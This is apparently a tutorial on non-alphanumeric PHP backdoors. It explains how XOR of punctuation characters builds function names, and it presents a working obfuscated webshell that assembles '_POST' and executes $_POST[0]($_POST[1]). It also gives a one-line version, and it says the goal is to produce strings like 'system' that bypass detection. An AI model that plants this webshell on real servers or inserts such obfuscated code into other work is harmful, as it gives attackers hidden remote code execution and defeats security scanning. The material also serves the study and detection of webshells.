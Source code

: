 ![answer2](../assets/img/web/answer2.png)

Let's analyze the above code together:

1. `$_++; ` This line of code means to increment the variable named `"_"`, the default value of the variable undefined
   in `PHP` `null`, `null== False==0`, we can get a number by auto-incrementing the undefined variable without using any
   numbers.
2. `$__= "?" ^ "}";` XOR the characters `?` and `}`, and get the result `B` assigned to the variable named `__`
   (two underscores)
3. `$__(); ` Through the above assignment operation, the value of the variable `$__` is `B`, so this line can be
   regarded as `B()`. In `PHP`, this line of code represents The function `B` is called, so the result is
   `Hello Angel_Kitty`. In `PHP`, we can treat strings as functions.

Seeing this, I believe that if you see a similar `PHP` backdoor, you should not be so confused. You can use the sentence
analysis of the backdoor code to understand the functions that the backdoor wants to achieve.

We want to use this backdoor to create strings that bypass the detection and are useful to us, such as `_POST`,
`system` , `call_user_func_array `, or whatever we need.

Here is a very simple non-alphanumeric `PHP` backdoor:

```php
<?php
    @$_++; // $_ = 1
    $__ = ("#" ^ "|"); // $__ = _
    $__ .= ("." ^ "~"); // _P
    $__ .= ("/" ^ "`"); // _PO
    $__ .= ("|" ^ "/"); // _POS
    $__ .= ("{" ^ "/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

Here I explain, `.=` is a string connection, see `PHP` syntax for details.

We can even merge the above code into one line, making the program less readable, the code is as follows:

```php
$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/");
```
